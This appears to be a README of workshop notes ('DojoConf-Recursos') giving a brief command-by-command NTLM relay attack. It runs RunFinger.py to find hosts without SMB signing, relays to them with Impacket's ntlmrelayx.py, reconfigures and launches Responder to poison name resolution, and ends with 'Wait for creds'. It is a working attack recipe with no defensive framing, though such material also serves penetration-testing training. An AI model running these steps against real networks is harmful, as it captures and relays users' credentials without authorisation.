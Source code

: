 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /var/log/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
    * Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
    * Configure Impacket’s NTLMrelayx to target those systems
    * **echo "IP"  >> targets.txt**
    * **ntlmrelayx.py -tf targets.txt --smb2support**
2. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    * **Responder.py** -I eth0 -rdw
4. Wait for creds

